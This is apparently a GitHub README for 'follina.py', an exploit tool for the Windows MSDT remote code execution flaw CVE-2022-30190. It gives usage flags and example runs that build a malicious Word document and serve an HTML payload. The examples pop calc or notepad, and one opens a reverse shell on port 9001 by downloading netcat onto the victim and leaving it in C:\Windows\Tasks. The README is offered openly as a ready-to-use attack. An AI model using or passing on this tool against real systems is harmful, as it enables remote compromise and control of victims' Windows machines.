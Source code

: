 # CVE-2022-30190
Microsoft Windows Support Diagnostic Tool RCE   
&nbsp;

## Usage
```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```
&nbsp;

# Examples

### Pop calc.exe:
```
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

### Pop notepad.exe:
```
$ python3 follina.py -c "notepad"
```

### Get a reverse shell on port 9001.
```
$ python3 follina.py -r 9001
```
Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.
</br>&nbsp;

## How Does It Works
![poc](./how-work.jpg)
</br>&nbsp;

## Credit
[JohnHammond](https://github.com/JohnHammond/msdt-follina/blob/main/README.md)'s github page.</br>
[sans](https://isc.sans.edu/forums/diary/New+Microsoft+Office+Attack+Vector+via+msmsdt+Protocol+Scheme+CVE202230190/28694)'s webpage.</br>
</br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or buy me a [Coffee](https://buymeacoffee.com/NafisiAslH)

